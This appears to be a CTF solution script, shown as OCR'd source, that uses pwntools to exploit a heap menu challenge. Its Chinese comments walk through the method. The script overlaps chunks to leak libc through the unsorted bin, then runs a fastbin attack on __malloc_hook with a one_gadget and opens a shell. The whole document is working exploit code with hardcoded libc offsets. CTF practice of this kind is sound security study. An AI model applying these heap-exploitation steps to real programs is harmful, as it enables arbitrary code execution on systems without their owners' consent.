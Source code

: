 ```python
    gdb.attach(pid)
    pause()

def allocate(size):
    sh.sendlineafter(': ', '1')
    sh.sendlineafter(': ', str(size))

def fill(index, size, content):
    sh.sendlineafter(': ', '2')
    sh.sendlineafter(': ', str(index))
    sh.sendlineafter(': ', str(size))
    sh.sendafter(': ', content)

def free(index):
    sh.sendlineafter(': ', '3')
    sh.sendlineafter(': ', str(index))

def dump(index):
    sh.sendlineafter(': ', '4')
    sh.sendlineafter(': ', str(index))

# 首先申请三个0x80的chunk，大概思路是先free第1个chunk，然后通过第0个chunk溢出修改第1个chunk的head，让OS误认为chunk1的大小是chunk1+chunk2
# 此时申请回chunk1，但是chunk1此时就是chunk1+chunk2两个块重合了，然后因为题目里面是calloc，因此将变成0的恢复，然后free掉chunk2，chunk2将会被添加到unsortbin
# 因此chunk2的fd和bk都会指向main_arena，此时打印chunk1，打印的实际上是chunk1+chunk2两个块，因此可以打印出chunk2的fd和bk，并由此得出&main_arena、libc_addr。
allocate(0x80)
allocate(0x80)
allocate(0x80)
allocate(0x20) # 没有这个 做不出来 挺怪的
free(1)
fill(0, 0x90, b'a'*0x80 + p64(0) + p64(0x121))
allocate(0x110)
payload = b'a'*0x80 + p64(0) + p64(0x91) + b'c'*0x80 
fill(1, len(payload), payload)
free(2)
dump(1)
main_arena = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x58
info('the addr of main_arena is {}'.format(hex(main_arena)))
libc_addr = main_arena - 0x3c4b20
info('the libc addr is {}'.format(hex(libc_addr)))
fake_chunk_addr = libc_addr + 0x3c4aed
info('the fake_chunk_addr is {}'.format(hex(fake_chunk_addr)))
malloc_hook = libc_addr + 0x3c4b10
info('the addr of malloc_hook is {}'.format(hex(malloc_hook)))

# 接下来是fastbin attack
allocate(0x80) # 还原
# 此时到这里 前面几个chunk不管了 接下来是以chunk4开始的fast bin大小的chunk
allocate(0x60) # chunk4
allocate(0x60) # chunk5
free(5)
payload = b'd'*0x60 + p64(0x70) + p64(0x71) + p64(fake_chunk_addr)
fill(4, len(payload), payload)
allocate(0x60) # 还是chunk5
allocate(0x60) # chunk6

one_gadget = 0x4526a
payload = b'a'*(0x23 - 0x10) + p64(libc_addr + one_gadget)
fill(6, len(payload), payload)

allocate(0x10)
sh.interactive()
```
